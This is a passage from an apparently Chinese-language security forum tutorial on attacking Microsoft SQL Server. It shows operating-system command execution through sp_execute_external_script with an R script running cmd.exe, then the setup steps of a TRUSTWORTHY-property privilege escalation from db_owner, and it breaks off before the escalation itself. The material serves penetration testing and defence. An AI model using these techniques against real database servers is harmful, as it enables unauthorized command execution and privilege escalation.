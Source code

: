 ### 执行R脚本

```php
EXEC sp_execute_external_script
@language=N'R',
@script=N'OutputDataSet <- data.frame(system("cmd.exe /c ipconfig",intern=T))'
WITH RESULT SETS (([cmd_out] text));
GO
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-6b6be1ea7a2b69d9c7b6133ff1bd8d78e0b2504b.png)

滥用 Trustworthy（db\_owner提权）
===========================

### 手动提权

创建public用户权限test  
![image.png](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-8a1815fa0ec820ad58b9c1c043c1465c14e6d481.png)  
新建数据库ignite  
![image.png](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-b80e7f34380133c11be37691e911d3294652eea9.png)  
编辑 test 用户的用户映射，使其拥有 ignite 数据库的 db\_owner 身份  
![image.png](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-69708a76664f51a4985589872c1887827758a3ff.png)  
检查数据库是否启用了可信属性

```php
select name,is_trustworthy_on from sys.databases
```

可以看到 ignite 数据库暂未开启  
![image.png](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-76241575edcf67efe11f51987bc404989911ddf6.png)  
激活其可信属性

```php
ALTER DATABASE [ignite] SET TRUSTWORTHY ON
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-af3cb4cda557a5e4719fc8e39d70924db54570d7.png)  
使用创建的 test 用户登录，在 ignite数据库中新建查询哪些用户是其 db\_owner

```php
use ignite;
SELECT DP1.name AS DatabaseRoleName,  
    isnull (DP2.name, 'No members') AS DatabaseUserName  
FROM sys.database_role_members AS DRM 
RIGHT OUTER JOIN sys.database_principals AS DP1 
    ON DRM.role_principal_id = DP1.principal_id 
LEFT OUTER JOIN sys.database_principals AS DP2 
    ON DRM.member_principal_id = DP2.principal_id 
WHERE DP1.type = 'R'
ORDER BY DP1.name;
```
